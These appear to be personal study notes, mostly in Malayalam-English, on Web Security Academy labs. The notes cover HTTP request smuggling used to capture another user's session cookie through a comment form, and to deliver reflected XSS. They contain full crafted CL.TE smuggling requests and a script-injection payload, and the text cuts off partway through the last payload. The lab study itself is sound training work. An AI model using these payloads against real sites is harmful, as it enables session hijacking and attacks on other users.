                     POST / HTTP/1.1
					Host: 0a2a00a203669796c05db2d4002600de.web-security-academy.net
					Content-Type: application/x-www-form-urlencoded
					Content-Length: 355        ---1)
					Transfer-Encoding: chunked
					
					0
					
					POST /post/comment HTTP/1.1
					Host: 0a2a00a203669796c05db2d4002600de.web-security-academy.net
					Content-Type: application/x-www-form-urlencoded
					Content-Length: 810          ---2)
					Cookie: session=jPcj7tfUxIuQ3S9T2hXbOJqpBOIYDuA2  ---3)
					Connection: close
					
					csrf=lejKhAVm6TdMLlEZ3KP9yNOdrhmKVvmL&postId=8&name=josuasd&email=josusd%40gmail.com&website=&comment=shajappan

-->ivide namuk final payload kanam. GET /   request maati POST ennaki karanam ariyalo POST request il mathrame smuggling chyan patu
-->1) mathe content-lenth ee requst full ayitula content length.front-end C.L aan support chyunath.so correct lenth kodukanam ilengil read timeout error varum
-->2)  mathae C.L nok ith correct lenth alla.ee lenth koduthath enthanennal namuk user il ninum append chyapeduka lenth ethra venam enn theerumanikuna request aan
-->ivide correct aayi th namal koduthale user inte session token kitu
-->3)  il ulla session ennath namude real aaya session aan.karnam namal comment iduna request aan smuggle chyan eduthath so ath oru action request aan so athil session,csrf oke undakum
-->so ini mumb chytha lab ukale pole rand pravisham send adikenda.ivide otta pravisham send adichamathi.oru pravisham send adikumbol request pokum enit ee comment enna athayath avide normal user inte request append aayi comment boxil save aakum ie , `shajappan GET / HTTP/1.1 Host:.....` enn namuk kanam
-->ithil session token undakum.so ath copy chyth browser ile cookie extension il poi ee token save chyth refresh adichal lab solve aakum.ie namal carlos aayi marum ok

==============================================================

### Using HTTP request smuggling to exploit reflected XSS :
-->If an application is vulnerable to HTTP request smuggling and also contains reflected XSS, you can use a request smuggling attack to hit other users of the application
-->It requires no interaction with victim users. You don't need to feed them a URL and wait for them to visit it

       Lab-9(Exploiting HTTP request smuggling to deliver reflected XSS)
-->aadyam lab open chyuka enit GET /  request eduth repeater il iduka
-->ini athile ethengilum blog post edukuka enit nokiyal kanam athile `user-agent: ...a"/<script>alert(1)</script>`   il ingane script chythal namuk aa response il kanam ee script angane thane html il add ayitund.athayath script reflect aakunund.so ee response eduth browser il ittal namuk kanam xss trigger aakunund
--->so namuk ee GET /post?postId=3  request namuk smuggle chyam.apol ee request send aayikazhiyumbol next user ee page ilek pokumbol alert pop up aakum
-->so home page int GET /  request eduth aadyam chyuka enit ee reuquest itt smuggle chyuka
-->final payload :

                    POST / HTTP/1.1
					Host: 0a8600a1039293f6c07e0aa900540013.web-security-academy.net
					Content-Type: application/x-www-form-urlencoded
					Content-Length: 150
					Transfer-Encoding: chunked
					